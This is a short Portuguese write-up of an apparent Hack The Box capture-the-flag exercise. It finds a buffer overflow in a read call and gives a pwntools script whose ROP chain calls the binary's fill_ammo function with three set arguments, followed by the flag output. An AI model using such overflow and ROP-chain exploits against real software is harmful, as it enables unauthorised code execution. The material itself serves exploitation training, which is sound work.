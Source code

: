 Identifiquei que havia um overflow em uma chamada da função read na main.
A partir disso descobri outra função chamada fill_ammo que é a que queremos dar exploit

Ela recebe 3 parametros, sendo assim, utilizando o ROPgadget consegui os gadgets para passar estes 3 parametros e o retorno:

# 0x000000000040159f : pop rdi ; ret
# 0x000000000040159b : pop rdx ; ret
# 0x000000000040159d : pop rsi ; ret
# 004011c4 c3              RET


Após isso gerei o payload utilizando o seguinte script:

```python
 from pwn import *

ret = 0x401588
pop_rdi = 0x40159f
pop_rsi = 0x40159d
pop_rdx = 0x40159b
fill_ammo_addr = 0x4012f5


# 40 A para preencher o buffer + o ponteiro
print(b"A"*40 + p64(ret) + p64(pop_rdi) + p64(0xdeadbeef) + p64(pop_rsi) + p64(0xdeadbabe) + p64(pop_rdx) + p64(0xdead1337) + p64(fill_ammo_addr))
```

Conseguindo então o seguinte resultado:

---

Preparing beta testing..
[✓] [✓] [✓]

All Placements are set correctly!

Ready to launch at: HTB{f4k3_fl4g_4_t35t1ng}

---